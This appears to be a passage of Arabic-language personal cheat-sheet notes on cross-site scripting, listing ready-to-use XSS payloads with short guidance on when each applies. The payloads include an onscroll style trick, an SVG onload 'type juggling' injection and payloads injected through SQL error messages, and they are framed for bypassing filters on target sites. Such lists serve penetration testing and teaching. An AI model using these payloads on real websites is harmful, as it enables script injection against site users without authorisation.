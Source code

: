 ```html
<p style=overflow:auto;font-size:999px onscroll=alert(1)>AAA<x/id=y></p>#y
```

### 📌 استخدمه لما:

- تقدر تحقن أو .
    
- عندك control على الـ style أو أحداث مثل onscroll.
    
- الهدف يمنع onclick أو onload.
#### شرح للتبسيط

![Recording 20250623075133.m4a](attachments/Recording 20250623075133.m4a)


---

## ✅  **Type Juggling XSS**
{ #XSS_other_idea /  #XSS_Idea_for_SVG_tag }
### 🧠 متى تستخدمه؟

لما تشك إن الكود فيه شرط زي:

```js
if (input == 1) { /* ... */ }
```

### 🔥 استغلال:

```html
1<svg onload=alert(1)>
```

### 📌 استخدمه لما:

- الهدف بيقارن input بـ رقم أو شرط.
    
- مش بيستخدم ===.
    
- وبتحقن HTML.
    

---

## ✅ء XSS قائم على أخطاءSQL (SQLi Error-Based XSS )
{  #XSS_Idea_for_SVG_tag  / #XSS_Idea_for_script_tag  / #XSS_other_idea}
**الشرح البسيط:**
يُستخدم عندما يتسبب إدخال علامة اقتباس (`'`) أو شرطة مائلة (`\`) في ظهور رسالة خطأ SQL تُعكس في الصفحة. يمكنك إدخال كود XSS في رسالة الخطأ.

**أمثلة تعمل:**
- `'1<svg onload=alert(1)>`: يُسبب خطأ SQL ويُدرج `<svg>` في رسالة الخطأ.
- `<svg onload=alert(1)>\`: نفس الفكرة باستخدام شرطة مائلة.
